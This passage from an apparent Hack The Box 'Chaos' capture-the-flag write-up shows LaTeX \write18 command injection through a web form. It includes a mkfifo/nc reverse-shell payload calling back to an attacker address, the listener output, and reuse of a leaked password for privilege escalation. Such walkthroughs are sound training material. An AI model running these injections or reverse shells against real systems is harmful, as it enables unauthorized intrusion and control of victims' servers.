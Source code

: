 
This construct allows writing to the 18th file descriptor, which by default is
the command line. So if LaTeX is passed something of the following format, it
will run the command:

    
    
    \immediate\write18{[command]}
    

For example, the following POST gives me the `id` output (piped into `grep` to
get rid of most of the output):

    
    
    root@kali# curl -s -X POST -d "content=%5Cimmediate%5Cwrite18%7Bid%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php | grep uid
    (/usr/share/texlive/texmf-dist/tex/latex/latexconfig/epstopdf-sys.cfg))uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

From here, it’s pretty easy to get a shell:

    
    
    root@kali# curl -X POST -d "content=%5Cimmediate%5Cwrite18%7Brm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.14 443 >/tmp/f%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.120.
    Ncat: Connection from 10.10.10.120:34222.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ hostname
    chaos
    

## Privesc: www-data –> ayush

### su

In `/home` there are two users:

    
    
    www-data@chaos:/home$ ls
    ayush  sahay
    

Since I already had webmail creds for ayush (“jiujitsu”), I gave them a try
with `su` (after upgrading my terminal using `python -c 'import
pty;pty.spawn("bash")'`, then Ctrl-z, `stty raw -echo`, `fg`, `reset`), and
they worked:

